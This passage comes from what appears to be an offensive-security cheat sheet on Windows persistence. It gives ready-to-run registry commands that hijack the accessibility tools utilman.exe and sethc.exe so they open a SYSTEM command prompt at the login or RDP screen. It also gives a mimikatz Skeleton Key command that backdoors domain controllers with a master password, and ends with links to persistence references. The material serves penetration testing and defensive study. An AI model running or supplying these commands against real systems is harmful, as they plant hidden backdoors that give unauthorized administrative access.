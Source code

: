 ```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe

Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

```powershell
# Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

## References

* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [IIS Raid – Backdooring IIS Using Native Modules - 19/02/2020](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - Apr 27, 2020 - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)
* [Persistence - Checklist - @netbiosX](https://github.com/netbiosX/Checklists/blob/master/Persistence.md)
* [Persistence – Winlogon Helper DLL - @netbiosX](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)
* [Persistence - BITS Jobs - @netbiosX](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)
* [Persistence – Image File Execution Options Injection - @netbiosX](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)
* [Persistence – Registry Run Keys - @netbiosX](https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/)
